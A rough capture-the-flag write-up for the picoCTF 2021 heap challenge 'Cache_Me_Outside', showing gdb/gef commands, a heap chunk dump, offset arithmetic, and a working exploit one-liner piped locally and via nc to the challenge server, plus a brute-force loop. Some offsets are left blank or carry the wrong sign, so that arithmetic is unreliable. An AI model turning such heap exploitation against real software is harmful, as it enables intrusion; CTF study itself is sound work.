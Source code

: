 # Cache_Me_Outside @ picoCTF 2021

this is heap overflow problem

## Notes
1. the files  heapedit, Makefile, libc.so.6 are given
heap edit doesn't work directly

2. we installed pwninit and gef
https://github.com/io12/pwninit

3. we followed https://www.youtube.com/watch?v=ioSRCLRDC9U

## Steps

1. run pwninit and once program is executable in kali, make a flag file called flag.txt
2. run ghidra and look at the code
3. `gdb heapedit_patched` 
4. `break main`
5. `run`
6. `break malloc`
7. `c` to continue
8. `heap bins` to see tcache addr
9. two cache entries at 0x603890 and 0x603800
10. do search-pattern for each :
    `search-pattern 0x603890`
    `search-pattern 0x603800`
11. we get 2 address for buffer pointer 0x602088 and 0x603890 
12. find offset for each, to calculate offset we need starting malloc addr


```
chunk(addr=0x602010, size=0x250, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x0000000000602010     00 00 00 00 00 00 00 02 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x602260, size=0x230, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x0000000000602260     88 24 ad fb 00 00 00 00 b3 24 60 00 00 00 00 00    .$.......$`.....]
Chunk(addr=0x602490, size=0x1010, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x0000000000602490     66 6c 61 67 20 68 65 68 65 68 65 68 65 68 65 68    flag heheheheheh]
Chunk(addr=0x6034a0, size=0x90, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x00000000006034a0     63 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    congrats! Your f]
Chunk(addr=0x603530, size=0x90, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x0000000000603530     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x6035c0, size=0x90, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x00000000006035c0     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x603650, size=0x90, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x0000000000603650     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x6036e0, size=0x90, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x00000000006036e0     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x603770, size=0x90, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x0000000000603770     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x603800, size=0x90, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x0000000000603800     00 00 00 00 00 00 00 00 21 20 59 6f 75 72 20 66    ........! Your f]
Chunk(addr=0x603890, size=0x90, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x0000000000603890     00 38 60 00 00 00 00 00 68 69 73 20 77 6f 6e 27    .8`.....his won']
Chunk(addr=0x603920, size=0x410, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x0000000000603920     63 0a 00 00 00 00 00 00 00 00 00 00 00 00 00 00    c...............]
Chunk(addr=0x603d30, size=0x1f2e0, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  top chunk

```

13. we got these chunk addrs: 0x602010, 0x602490, 0x602260, 0x6034a0, 0x603530, 0x6035c0, 0x603650, 0x6036e0, 0x603770, 0x603800, 0x603890, 0x603920
14. we calculate offset for all these 
```
p/d 0x602088 - 0x602010 = 120 
p/d 0x602088 - 0x602490 = -1032 
p/d 0x602088 - 0x602260 = -472
p/d 0x602088 - 0x6034a0 = -5144
p/d 0x602088 - 0x603530 = -5288
p/d 0x602088 - 0x6035c0 = -5432
p/d 0x602088 - 0x603650 = -5576
p/d 0x602088 - 0x6036e0 = 5720 
p/d 0x602088 - 0x603770 = 5864
p/d 0x603890 - 0x602010 = 6272
p/d 0x603890 - 0x602490 = 5120
p/d 0x603890 - 0x602260 = 
p/d 0x603890 - 0x6034a0 =
p/d 0x603890 - 0x603530 =
p/d 0x603890 - 0x6035c0 =
p/d 0x603890 - 0x603650 =
p/d 0x603890 - 0x6036e0 =
p/d 0x603890 - 0x603770 =
```
and we can do exploit like : 
`{ echo "-5144"; printf "\x00";} | ./heapedit`
or remotely as 
`{ echo "-5144"; printf "\x00";} | nc mercury.picoctf.net 8054`


# Brute force Way
```sh
#!/bin/bash

for i in {1000..-6000}; do
  ( echo "$i"; printf "\x00"; ) | ./heapedit_patched
done
```

# now see how to do this with r2


